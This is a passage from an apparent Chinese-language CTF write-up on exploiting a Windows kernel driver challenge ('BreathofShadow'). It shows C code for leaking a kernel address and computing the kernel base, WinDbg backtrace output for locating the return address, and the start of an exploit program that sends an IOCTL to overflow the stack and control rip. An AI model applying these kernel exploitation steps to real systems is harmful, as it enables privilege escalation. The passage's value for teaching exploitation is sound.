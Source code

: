 ```c
        NULL
    );

    uintptr_t leak_kernel = (uintptr_t)*(void **)(stack_value + 0x108);
    uintptr_t kernel_base = leak_kernel - 0xb7b3c9; 
    printf("[!] Leak Kernel: 0x%llx\n", leak_kernel);
    printf("[!] Kernel Base: 0x%llx\n", kernel_base);

    return 0;
}
```

### Kernel ROP

接下來來看 stack cookie
stack cookie 會在 return address 附近，不過其實不用理他，因為到時候把整個 stack leak 下來，順便蓋回去就好了

不過還是要先找 return address 位置

這邊可以用 backtrace 
https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/calls-window

```
kd> k
 # Child-SP          RetAddr               Call Site
00 ffff8104`0d6ee510 fffff800`1340518a     BreathofShadow+0x506f
01 ffff8104`0d6ee670 fffff800`7d09697e     BreathofShadow+0x518a
02 ffff8104`0d6ee6a0 fffff800`7d68a568     nt!IofCallDriver+0xbe
```

找到 return address 在 `ffff8104 0d6ee668`
Dst 開始的位置在 `ffff8104 0d6ee540`

`0xffff8104 0d6ee668 - 0xffff8104 0d6ee540 = 0x128`

這樣就可以控制 rip 到 0xaabbccdd 了
```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

#define DeVioctlCode 0x9C40240B
#define DeviceName L"\\\\.\\BreathofShadow"
#define ADDR(x) ((x) ^ KEY)

void hexdump(const void* data, size_t size)
{
    const unsigned char* byteData = (const unsigned char*)data;
    size_t i, j;

    for (i = 0; i < size; i += 16) {
        printf("%08zx  ", i);

        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                printf("%02x ", byteData[i + j]);
            } else {
                printf("   ");
            }
        }

        printf(" |");
        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                unsigned char c = byteData[i + j];
                if (c >= 32 && c <= 126) {
```